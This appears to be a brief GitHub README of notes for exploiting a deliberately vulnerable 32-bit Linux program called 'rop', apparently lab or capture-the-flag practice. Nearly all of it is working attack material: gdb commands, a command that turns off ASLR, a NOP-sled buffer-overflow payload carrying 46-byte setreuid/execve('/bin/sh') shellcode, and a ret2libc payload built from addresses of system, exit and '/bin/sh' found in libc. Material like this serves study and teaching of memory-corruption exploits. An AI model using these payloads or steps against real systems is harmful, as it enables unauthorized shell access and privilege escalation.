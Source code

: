 **Userfull debugger commands**

    gdb rop
    disas vulnerable
    break *0x08048456
    run $(python -c 'print "A"*268')
    x/200xb buffer
    info break
    del <brakpoint number>

**Buffer overflow**

    run $(python -c 'print "\x90"*222 + "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x30\xf2\xff\xbf"')

# malicious code 46 bytes

**Turn off ASLR**
    sudo sysctl -w kernel.randomize_va_space=0

**Find <system> call**

    (gdb) print system
    >> $1 = {<text variable, no debug info>} 0xb7e41da0 <__libc_system>

**Find <exit> call**

    (gdb) print exit
    >> $2 = {<text variable, no debug info>} 0xb7e359d0 <__GI_exit>

**Find "/bin/sh" string in system library**

    (gdb) find &system,+9999999,"/bin/sh"
    x/s *((char**)environ)
    >> 0xb7f629ab

**Call libc**

    run $(python -c 'print "A"*268 + "\xa0\x1d\xe4\xb7" + "\xd0\x59\xe3\xb7" + "\xab\x29\xf6\xb7"')

